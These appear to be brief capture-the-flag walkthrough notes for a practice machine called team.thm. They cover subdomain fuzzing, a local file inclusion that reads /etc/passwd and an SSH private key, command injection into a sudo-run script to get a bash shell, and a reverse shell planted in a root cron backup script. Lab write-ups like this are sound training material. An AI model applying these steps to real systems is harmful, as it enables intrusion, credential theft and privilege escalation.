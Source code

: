 add <ip> to /etc/hosts: <ip>  team.thm

nmap:
21 ftp 
22 ssh 
80 http


gobuster: 
/robots.txt (Status: 200)  -> a name: dale

wfuzz for subdomain: wfuzz -c --hww 977 -u http://team.thm -H "Host:FUZZ.team.thm" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt 

							-> sub: dev.team.thm

LFI when checking: /script.php?page=/etc/passwd

get user.txt: /script.php?page=/home/dale/user.txt

use burpsuite w/ lfi fuzzing wordlist: get <dale id_rsa> at /etc/ssh/sshd_config

log in ssh as dale

can sudo /home/gyles/admin_checks

type in: <any_name>
		/bin/bash
		<any_time>

 -> escalate as gyles

check file .bash_history to trace what the author did when creating the box

found main_backup.sh and cronjob for it
can modify as gyles -> add rev shell

 -> escalate as root


